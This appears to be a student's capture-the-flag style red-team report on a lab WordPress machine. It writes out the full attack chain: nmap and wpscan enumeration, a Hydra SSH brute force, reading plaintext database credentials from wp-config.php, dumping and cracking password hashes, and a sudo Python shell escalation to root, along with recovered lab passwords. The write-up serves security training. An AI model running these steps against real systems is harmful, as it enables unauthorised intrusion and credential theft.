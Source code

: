 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

$ nmap -A 192.168.1.0/24
  - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/5809680b4a9d44d4d4963528ca3bcff1116cee72/Images/Offense%20Images/nmap-ascan.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn
  - Port 445/TCP Open netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - Improper configured SSH
  - WordPress Enumation
  - Weak Password Implementation
  - No file security permission implemented
  - Use of weak password salted hashes
  - Python root escalation privileges

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploits Used**
      - WPScan to enumerate users of the Target 1 WordPress site
       - wpscan --url http://192.168.1.110 --enumerate u
       - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8655bc671393f7d27d9d25ac768909c31c3b8594/Images/Offense%20Images/wpscanusers.png)
    - Targeting User Michael
      - Executed Hydra Brute Force Attack
        - The following command was performed:
        - hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh
        - Password: Michael
        - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/hydrabruteforcemichael.png)
    - Capturing Flag 1: After SSH Brute Force Attack as Michael I traversed through directories and files.
      - Found Flag1 in  var/www/html folder at root in service.html in a HTML comment below the footer.
      - Commands:
        - ssh michael@192.168.1.110
        - pw: michael
  - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/sshmichaelpassword.png)
        - cd ../
        - cd /var/www/html
        - ls -l
        - nano service.html
  - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/flag1.png)
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Same exploit covered in flag1 to gain access
      - Commands:
        - ssh michael@192.168.1.110
        - pw: michael
        - cd ../
        - cd /var/www
        - find / i-name flag*
        - cat flag2.txt
  - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/flag2hash.png)
  - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/flag2.png)
  - `flag3` : afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Previous exploit covered in flag1 and flag2
      - Captured flag3 Accessing MySQL database
        - Once having found wp-config.php and gaining access to the database credentials as Michael, MySQL was used to explore the database
        - the wp-config.php displayed DB_Password in plaintext
        - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/47ad8ccdf0e2d7a701b29fd857043666040aed6d/Images/Offense%20Images/wp-configphp.png)
        - flag3 was found in wp_posts table in the wordpress database.
        - Commands:
          - Connected to mysql: -u root -p R@v3nSecurity
          - show databases;
          - use wordpress;
          - show tables;
          - select * from wp_posts;
   - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/mysqlconnect.png)
   - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/sqlshowdatabases.png)
   - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/529d90d142b66a08b4e6ba5bd769230e43681dcd/Images/Offense%20Images/mysqlshowtables.png)
  - `flag4` : 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Use of weak password salted hashes and Python root escalation privileges
      - Captured flag4 by retrieving user credentials from database, executed john the ripper to crack password hash and use Python Escalation Privileges to gain root access
        - Previously gained access to the database credentials as Michael from the sp-config.phpfile, cracking password hashes gathered from MySQL was the next step.
        - These user credentials are stored in the wp_users table of the wordpress database.
        - The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
        - Commands:
          - Connected to mysql: -u root -p R@v3nSecurity
          - SELECT ID, user_login, user_pass FROM wp_users;
        - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8325e679b7615499ce833972057be8bd7ba43068/Images/Offense%20Images/stevenhashedsql.png)
        - When I exported the hashes, I saved them individually as stevenhash.txt and michaelhash.txt and ran them against John the Ripper to crack the hashes.
          - Command:
            - john stevenhash.txt
            - john michaelhash.txt; the execution of performing the john the ripper kept on going; but we already had the password from the previous activity.
            - [alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/33c3d21df349df89410d1cbbdf73db2f9914a7a7/Images/Offense%20Images/jtrstevenhash.png)
          - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
          - Command:
            - ssh steven@192.168.1.110
            - pw:pink84
            - sudo -l
            - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
            - cd /root
            - ls
            - cat flag4.txt
      - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/33c3d21df349df89410d1cbbdf73db2f9914a7a7/Images/Offense%20Images/ravensteven.png)
